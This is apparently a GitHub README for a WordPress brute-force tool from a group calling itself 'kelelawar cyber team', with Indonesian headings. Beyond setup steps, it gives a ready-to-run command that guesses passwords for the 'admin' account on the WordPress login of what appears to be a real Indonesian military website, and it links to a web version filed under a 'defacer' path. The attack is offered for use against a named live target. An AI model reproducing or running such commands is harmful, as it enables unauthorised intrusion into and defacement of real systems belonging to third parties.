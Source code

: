 # Wordpress-Bruteforce

<img src="https://l.top4top.io/p_2240nm0hp0.png" width="400" height="350" alt="kelelawar cyber team">
<br>

# Perintah: 
<div class="snippet-clipboard-content position-relative overflow-auto">
<pre><code>
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt
</code></pre>
<div class="zeroclipboard-container position-absolute right-0 top-0">
<clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="$ pkg update &amp;&amp; upgrade
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt" tabindex="0" role="button" style="display: inherit;">

#Website Tools Wpbf:

https://tools.kelelawarcyberteam.com/tools/defacer/wpbf.php
